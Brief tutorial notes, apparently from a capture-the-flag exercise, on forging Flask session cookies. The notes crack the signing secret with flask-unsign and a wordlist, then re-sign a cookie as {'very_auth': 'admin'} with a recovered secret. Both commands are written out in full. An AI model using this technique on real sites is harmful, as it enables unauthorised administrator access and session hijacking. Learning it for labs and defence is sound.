 # Flask sign and unsign:
>
> When we have cookies in this format: eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZrSfTg.JIe9B0Hm3mgltvuM6n456DsXNm0
>
> And we check the source code and realise that flask is being used for the cookies, we sould look for a list of values that might be used in creating the cookie.
>
> If we find that list, we save each value in one new line and save them in a file.
> 
>
> Then we can take the cookie from our requests, and unsign it with the file, in order to get the corresponding value.
>
> Command: ```flask-unsign --unsign --cookie eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZrSezw.laAVJNwlqjzqr5USP0FvXuyEUOY --wordlist cookies.txt```
>
> Where:
>
> --cookie is the cookie from requests
>
> --wordlist is the file saved with each value from flask cookie list found in source code
>
>
>
> Then we sign again with the correct value, and the resulted cookie is taken and replaced in our request in order to provide the correct cookie.
>
> Command: ```flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'peanut butter'```
